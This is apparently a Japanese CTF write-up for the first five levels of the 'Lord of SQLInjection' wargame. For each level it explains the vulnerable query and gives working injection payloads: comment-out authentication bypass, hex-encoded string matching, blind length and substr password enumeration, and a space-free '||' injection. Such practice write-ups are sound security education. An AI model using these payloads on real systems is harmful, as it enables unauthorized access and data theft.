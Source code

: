 # Lord of SQLInjection writeup 01-05
## 01 - gremlin
>   $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";

GETパラメータ`id`と`pw`を特に無害化などしていないことが分かる。  
何か結果が返ればよいので、or文で条件を崩し、後方をコメントアウトする。

### 解答例
```
?id=1' or '1'='1'%23
```
> query : select id from prob_gremlin where id='1' or '1'='1'#' and pw=''

`%23`は`#`をURLエンコードしたもの。  
`#`のままブラウザでアクセスすると、URLフラグメントの扱いになるため。

### 別解
```
?id=1' or '1'='1'-- hoge
```
> query : select id from prob_gremlin where id='1' or '1'='1'-- hoge' and pw=''

MySQLの場合、`--`ではなく`-- `でコメントアウト。  
URL末尾のスペースはそのままだと無視されるので、` hoge`を入れてみた。

## 02 - cobolt
> $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 

SQLの結果から、`id`が`admin`か確認しているので、その通り指定する。  
パスワードは分からないので前の問題同様、コメントアウトする。  

### 解答例
```
?id=admin'%23
```
> query : select id from prob_cobolt where id='admin'#' and pw=md5('')

## 03 - goblin
> $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 

SQLの結果から、`id`が`admin`か確認しているが、既に`id='guest'`がベタ書きされている。  
また、クォーテーションを含むとエラーにされるので、`id='admin'`と書き足せない。  
文字列を条件にする場合、`'admin'`のようにせず、Hexで表すことができるので、試してみる。

```shell
$ echo -n admin | xxd
00000000: 6164 6d69 6e                             admin
```

### 解答例
```
?no=0 or id=0x61646d696e
```
> query : select id from prob_goblin where id='guest' and no=0 or id=0x61646d696e

### 別解
想定解ではなさそうだが、これでも正解になった。  
`admin`の方が`guest`より前に来て、かつ、`admin`よりも前に来るデータがないと思われる。  
```
?no=0 or 1=1 order by 1
```
> query : select id from prob_goblin where id='guest' and no=0 or 1=1 order by 1

## 04 - orc
> $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'";    
> $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 

`admin`のデータが取れれば取り合えずHello adminと表示してくれるが、  
実際のパスワードとGETパラメータの`pw`が一致していないとクリアできない。  
まずは`admin`の`pw`が何文字かを当てる。  

```
?pw=' or id='admin' and length(pw)=1%23
?pw=' or id='admin' and length(pw)=2%23
:
?pw=' or id='admin' and length(pw)=8%23
```
> query : select id from prob_orc where id='admin' and pw='' or id='admin' and length(pw)=8#'

Hello adminと表示されることでパスワードは8文字であることが分かる。  
1文字目は何か、2文字目は何か…ひたすら試行する。
```
?pw=' or id='admin' and substr(pw,1,1)=0%23
?pw=' or id='admin' and substr(pw,2,1)=0%23
?pw=' or id='admin' and substr(pw,2,1)=1%23
:
```

### 解答例
```
?pw=095a9852
```
> query : select id from prob_orc where id='admin' and pw='095a9852'

## 05 - prob_wolfman 
> $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 

半角スペースが禁止されているので`or id='admin`のように書き足せない。  
MySQLだと`and`は`&&`、`or`は`||`でも書くことができる。  

### 解答例
```
?pw='||id='admin
```
> query : select id from prob_wolfman where id='guest' and pw=''||id='admin'
